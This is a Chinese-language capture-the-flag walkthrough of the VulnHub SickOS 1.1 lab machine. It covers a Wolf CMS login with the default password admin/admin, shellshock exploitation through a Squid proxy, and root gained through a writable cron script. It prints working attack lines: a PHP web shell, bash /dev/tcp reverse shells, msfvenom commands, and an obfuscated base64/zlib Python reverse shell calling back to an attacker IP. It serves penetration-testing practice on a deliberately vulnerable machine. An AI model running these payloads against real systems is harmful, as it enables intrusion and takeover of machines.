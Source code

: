 ```yaml
---
{"dg-publish":true,"title":"vulnhub_SickOS1.1","dg-path":"安全/靶机/vulnhub_SickOS1.1.md","permalink":"/安全/靶机/vulnhub_SickOS1.1/","dgPassFrontmatter":true}
---
```


靶机ip
```
192.168.1.61
```
![Pasted image 20250121133207.png](/img/user/picture/Pasted%20image%2020250121133207.png)


端口扫描：
![Pasted image 20250121133500.png](/img/user/picture/Pasted%20image%2020250121133500.png)

![Pasted image 20250121133737.png](/img/user/picture/Pasted%20image%2020250121133737.png)


经了解3128端口开的是一个网络代理，要访问就需要经过代理
![Pasted image 20250121135605.png](/img/user/picture/Pasted%20image%2020250121135605.png)
![Pasted image 20250121135615.png](/img/user/picture/Pasted%20image%2020250121135615.png)
![Pasted image 20250121135632.png](/img/user/picture/Pasted%20image%2020250121135632.png)
![Pasted image 20250121140533.png](/img/user/picture/Pasted%20image%2020250121140533.png)

经网络所搜找到后台管理路径
```
 http://192.168.1.61/wolfcms/?/admin/login
```

尝试一下弱密码爆破，得到账号密码
```
admin
admin
```


![Pasted image 20250121143416.png](/img/user/picture/Pasted%20image%2020250121143416.png)
加入一句话木马
```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.55/4488 0>&1'");?>
```
点击Articles
![Pasted image 20250121143448.png](/img/user/picture/Pasted%20image%2020250121143448.png)
得到webshell
![Pasted image 20250121143532.png](/img/user/picture/Pasted%20image%2020250121143532.png)
在config.php中找到数据库配置信息
![Pasted image 20250121143621.png](/img/user/picture/Pasted%20image%2020250121143621.png)
其中暴露出一个密码
`john@123`

![Pasted image 20250121143702.png](/img/user/picture/Pasted%20image%2020250121143702.png)
尝试一下这个密码
![Pasted image 20250121143853.png](/img/user/picture/Pasted%20image%2020250121143853.png)


sudo 三个all
![Pasted image 20250121143916.png](/img/user/picture/Pasted%20image%2020250121143916.png)


拿到root
![Pasted image 20250121144009.png](/img/user/picture/Pasted%20image%2020250121144009.png)


也可以：
![Pasted image 20250121170252.png](/img/user/picture/Pasted%20image%2020250121170252.png)
![Pasted image 20250121170259.png](/img/user/picture/Pasted%20image%2020250121170259.png)
![Pasted image 20250121170445.png](/img/user/picture/Pasted%20image%2020250121170445.png)

![Pasted image 20250121182139.png](/img/user/picture/Pasted%20image%2020250121182139.png)




## webshell

利用nikto工具扫描
```
 sudo nikto -h 192.168.1.62 -useproxy 192.168.1.62:3128
```

发现有这么一行：
```
+ /cgi-bin/status: Site appears vulnerable to the 'shellshock' vulnerability. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6278
```
说明`/cgi-bin/status`文件存在shellshock漏洞

验证shellshock漏洞存在：
```
sudo curl   -x http://192.168.1.62:3128 http://192.168.1.62/cgi-bin/status -H "Referer:() { test;}; echo 'Content-Type: text/plain'; echo;echo; /usr/bin/id;exit"
```


![Pasted image 20250121214407.png](/img/user/picture/Pasted%20image%2020250121214407.png)


生成反弹shellpayload：
```
sudo msfvenom -p cmd/unix/reverse_bash lhost=192.168.1.55 lport=443 -f raw
```

```
0<&206-;exec 206<>/dev/tcp/192.168.1.55/443;sh <&206 >&206 2>&206
```

我们修改一下上面测试命令：
```
sudo curl   -x http://192.168.1.62:3128 http://192.168.1.62/cgi-bin/status -H "Referer:() { test;}; 0<&206-;exec 206<>/dev/tcp/192.168.1.55/443;/bin/sh <&206 >&206 2>&206"
```
//注意这里要把sh修改为绝对路径

![Pasted image 20250121215132.png](/img/user/picture/Pasted%20image%2020250121215132.png)
拿到了webshell
但是现在shell交互性差，尝试升级shell，参考[[blog/THM/netcat shell稳定\|netcat shell稳定]]

```
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl + Z
stty raw -echo; fg
```
现在这个shell中就可以使用clear等


```shell
www-data@SickOs:/etc/cron.d$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```


```shell
www-data@SickOs:/etc/cron.d$ ls
ls
automate  php5
www-data@SickOs:/etc/cron.d$ cat automate
cat automate

* * * * * root /usr/bin/python /var/www/connect.py
www-data@SickOs:/etc/cron.d$ ls -l /var/www/connect.py
ls -l /var/www/connect.py
-rwxrwxrwx 1 root root 109 Dec  5  2015 /var/www/connect.py
```

发现有一个文件`/var/www/connect.py`会每分钟用root权限执行一次

生成反弹shellpayload：
```
sudo msfvenom -p cmd/unix/reverse_python lhost=192.168.1.55 lport=444 -f raw
```

```txt
exec(__import__('zlib').decompress(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('eNqVUMEKwjAM/ZXRUwtS7dhEkR6GTBBRwe0+XK1sONuydP8vdRNpb8shTfreywtp30b3NgItXtJGLhbRL2CoTa+FBAgADVOx++ZGg+WIbWPK1hvKaJoiD3cOPEkS7xP46EnHB09ddqiOl7wMNxnB4ro/VUV5y7Mz8YdRoZWSwmLslgnUzp/4Ag30MZgYA322nVQak0CzmslnM/mxzzf8f2wq7l2H0bJu1RIaRD7d6GME')[0])))
```

等了一会，拿到shell
![Pasted image 20250121222239.png](/img/user/picture/Pasted%20image%2020250121222239.png)

![Pasted image 20250121222310.png](/img/user/picture/Pasted%20image%2020250121222310.png)